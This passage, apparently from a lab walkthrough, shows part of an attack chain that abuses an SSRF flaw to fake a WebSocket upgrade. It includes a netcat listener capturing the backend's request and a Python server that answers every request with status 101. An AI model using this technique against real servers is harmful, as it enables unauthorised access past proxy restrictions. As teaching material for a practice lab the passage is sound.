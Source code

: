We can use`nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:



```shell-session
user@attackbox$ nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.235.194 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a`101` status, allowing us to fake a WebSocket upgrade.

Setting up the Attacker's Web Server

We can quickly set up a web server that responds with status 101 to every request with the following Python code:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
 print("""
Usage: {} 
 """.format(sys.argv[0]))
 sys.exit()

class Redirect(BaseHTTPRequestHandler):
 def do_GET(self):
 self.protocol_version = "HTTP/1.1"
 self.send_response(101)
 self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command:


```shell-session
user@attackbox$ python3 myserver.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

### Faking a WebSocket
